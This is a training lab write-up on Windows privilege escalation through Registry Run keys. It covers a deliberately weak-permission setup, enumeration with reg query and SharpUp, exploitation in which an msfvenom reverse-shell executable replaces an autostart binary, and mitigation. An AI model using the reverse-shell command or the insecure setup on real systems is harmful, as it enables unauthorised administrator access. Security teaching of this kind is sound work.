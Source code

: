 # Logon Autostart Execution (Registry Run Keys)

## Table of Contents

- [Logon Autostart Execution (Registry Run Keys)](#logon-autostart-execution-registry-run-keys)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Logon Autostart Execution through Registry Run Keys is a Windows feature that enables specific programs or scripts to launch automatically when a user logs into the system. This feature allows these programs or scripts to launch automatically without any manual action from the user when the operating system starts up. 

Attackers may exploit the Logon Autostart Execution feature by inserting malicious software into the Registry Run Keys. This enables the malicious code to automatically launch during system startup, potentially granting it elevated privileges. 

## Lab Setup

### Manual Lab Setup

:warning: <b>To proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

1) Open a PowerShell with local Administrator privileges and run the following command to create a new folder:

```
mkdir "C:\Program Files\NickvourdSrv"
```

Outcome:

![Autostart-Registry-Keys-Create-Directory](/Pictures/AutostartRegistryKeys-LabSetup-Part1.png)

2) Download the file [NCV_AMD64.exe](/Lab-Setup-Binary/NCV_ADM64.exe) to the 'C:\Program Files\NickvourdSrv' directory.

3) Modify the permissions of the 'C:\Program Files\NickvourdSrv' directory to allow Full Control for all users:

![Autostart-Registry-Keys-Modify-Directory-Permissions](/Pictures/AutostartRegistryKeys-LabSetup-Part2.png)

4) Open a PowerShell with local Administrator privileges and run the following command to edit registry key:

```
regedit
```

5) Navigate to `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` and create new String Value `NickvourdSrv`:

![Autostart-Registry-Keys-Create-Registry-key-String-Value](/Pictures/AutostartRegistryKeys-LabSetup-Part4.png)

6) Modify the key string named `NickvourdSrv` with value data `C:\Program Files\NickvourdSrv\NCV_AMD64.exe`:

![Autostart-Registry-Keys-Modify-Registry-key-String-Value](/Pictures/AutostartRegistryKeys-LabSetup-Part6.png)

### PowerShell Script Lab Setup 

:warning: To proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.

Another way to set up the lab with the 'Logon Autostart Execution (Registry Run Keys)' scenario is by using the custom PowerShell script named [LogonAutostartExecutionRegistryRunKeys.ps1](/Lab-Setup-Scripts/LogonAutostartExecutionRegistryRunKeys.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\LogonAutostartExecutionRegistryRunKeys.ps1
```

Outcome:

![Autostart-Registry-Keys-PowerShell-Lab-Setup-Script](/Pictures/AutostartRegistryKeys-LabSetup-Part7.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration and identify whether a Windows workstation is vulnerable to the RegistryAutoruns issue, you can use the following command from a command prompt:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Outcome:

![RegistryAutoruns-Manual-Enumeration](/Pictures/RegistryAutoruns-Manual.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `RegistryAutoruns` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit RegistryAutoruns
```

Outcome:

![RegistryAutoruns-SharpUp](/Pictures/RegistryAutoruns-SharpUp.png)

:information_source: Moreover, you can use `SharpUp.exe audit` to perform a comprehensive enumeration of all misconfigurations vulnerabilities on the specified machine.

## Exploitation

1) Use msfvenom to generate a malicious executable (exe) file that can be executed via the booting of the victim's machine:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > shell.exe
```

2) Transfer the malicious executable file to victim's machine.

3) Move the malicious executable file to 'C:\Program Files\NickvourdSrv'.

4) Rename the 'NCV_AMD64.exe' to 'NCV_AMD64.bak'.

5) Rename the malicious exe (shell.exe) to 'NCV_AMD64.exe'.

Outcome:

![RegistryAutoruns-AboveActions](/Pictures/RegistryAutoruns-AboveActions.png)

6) Open a listener on your Kali machine.

7) Reboot the victim's machine and login as Adminstrator:

![Reboot-victim-machine](/Pictures/Reboot-Victim-Machine2.png)

8) Verify the reverse shell on your Kali machine:

![Reverse-Shell-As-Admin-RegistryAutoRuns](/Pictures/Reverse-Shell-As-Admin-RegistryAutoRuns.png)

## Mitigation

To defend against Registry auto-run vulnerabilities, adjust permissions on folders containing executables initiated through this mechanism. This limits unauthorized access and strengthens security measures.

Moreover, to delete a specific auto-run key value from the Windows Registry, you can use the following command in Command Prompt with local Administrator privileges:

```
reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "<KeyName>" /f
```

## References

- [Run and RunOnce Registry Keys Microsoft](https://learn.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys)
- [Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder Mitre](https://attack.mitre.org/techniques/T1547/001/)
